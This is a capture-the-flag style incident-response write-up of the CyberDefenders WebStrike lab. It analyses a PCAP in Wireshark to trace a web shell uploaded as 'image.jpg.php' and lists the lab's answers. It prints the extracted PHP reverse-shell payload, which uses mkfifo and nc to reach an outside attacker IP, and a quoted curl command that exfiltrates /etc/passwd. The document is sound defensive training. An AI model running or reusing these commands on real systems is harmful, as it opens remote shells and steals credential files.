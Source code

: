 # WebStrike - Lab 1: Investigating a Suspicious File Upload

A forensic walkthrough of malicious web activity captured via PCAP, analyzed using Wireshark to identify attacker behavior, uncover vulnerabilities, and determine the scope of unauthorized access.


## Demo Video


[Watch the Demo Video](https://youtu.be/c0VsVmQ7IYs)



## Lab Scenario

A suspicious file was discovered on a company web server. The Development team flagged the anomaly, and a PCAP file of the relevant network traffic was captured. Your task: trace the attacker's activity, understand how the file was uploaded, and determine what (if anything) was exfiltrated.


## Tools Used

- **Wireshark** (for full traffic analysis)
- **IP Geolocation** services
- **PCAP** file provided via Cyber Defenders
- Markdown and screenshots for documentation

---

## Summary of Findings

| Question | Answer |
|------------|-----------|
| **1. City of attack origin** | Tianjin |
| **2. Attacker's User-Agent** | `Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0` |
| **3. Name of malicious web shell** | `image.jpg.php` |
| **4. Upload directory** | `/reviews/uploads/` |
| **5. Outbound communication port** | `8080` |
| **6. File targeted for exfiltration** | `/etc/passwd` |

---

## Walkthrough

### 1. Identifying the geographical origin of the attack helps in implementing geo-blocking measures and analyzing threat intelligence. From which city did the attack originate?

- Used **Wireshark** to analyze IPv4 endpoints  
  ![Endpoints in Wireshark](./images/endpoints-view.png)

- Identified `117.11.88.124` as external attacker IP  
- Verified geolocation using [ipgeolocation.io](https://ipgeolocation.io)  
  ![GeoIP Lookup Screenshot](./images/ip-geo.png)
- The attack originated from Tianjin, China
- **Answer** - Tianjin

---

### 2. Knowing the attacker's User-Agent assists in creating robust filtering rules. What's the attacker's Full User-Agent?

- Followed the HTTP stream from the attacker:
  ![HTTP Stream](./images/user-agent-stream.png)

- Revealed full User-Agent:  
  `Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0`
- **Answer** - `Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0`
---

### 3. We need to determine if any vulnerabilities were exploited. What is the name of the malicious web shell that was successfully uploaded?

- Applied filter:  
  ```wireshark
  ip.src == 117.11.88.124 and http.request.method == "POST"
- Two upload attempts observed:
  - First failed: `image.php`
  - Second succeeded: `image.jpg.php`
    ![Successful Upload](./images/upload-success.png)
- The attacker successfully bypassed the server's validation by appending .jpg to the filename
- **Answer** - image.jpg.php
---

### 4. Identifying the directory where uploaded files are stored is crucial for locating the vulnerable page and removing any malicious files. Which directory is used by the website to store the uploaded files?

- File was successfully uploaded via `upload.php`
- Reviewed the server's HTTP response behavior
- Server returned `301 Moved Permanently`, redirecting to `/reviews/uploads/`
  ![303 Redirect](./images/301.png)
- Followed this redirect, `image.jpg.php` was accessible at that path
- The website stores uploaded files in the `/reviews/uploads/` directory
- **Answer** - `/reviews/uploads/`
---

### 5. Which port, opened on the attacker's machine, was targeted by the malicious web shell for establishing unauthorized outbound communication?

- Extracted PHP payload:
  ```php
  <?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 117.11.88.124 8080 >/tmp/f"); ?>
- Indicates outbound connection to attacker on port 8080
- **Answer** 8080
---

### 6. Recognizing the significance of compromised data helps prioritize incident response actions. Which file was the attacker attempting to exfiltrate?

- Used Wireshark filter:
  ```wireshark
  tcp.port == 8080 and ip.src == 24.49.63.79
- Found `curl -X POST -d /etc/passwd http://117.11.88.124:443/` in the TCP stream
- The attacker was attempting to exfiltrate `/etc/passwd`
- **Answer** - `passwd`
---

## Lessons Learned

- Importance of proper file validation on upload endpoints
- How attackers use filename obfuscation to bypass filters
- Value of network traffic inspection during incident response
- How reverse shells exploit outbound connections
- Role of User-Agent and IP analysis in filtering and threat intel
---

## References

- [CyberDefenders – WebStrike Lab](https://cyberdefenders.org/labs/71)
- [Wireshark](https://www.wireshark.org/)
- [ipgeolocation.io](https://ipgeolocation.io/)

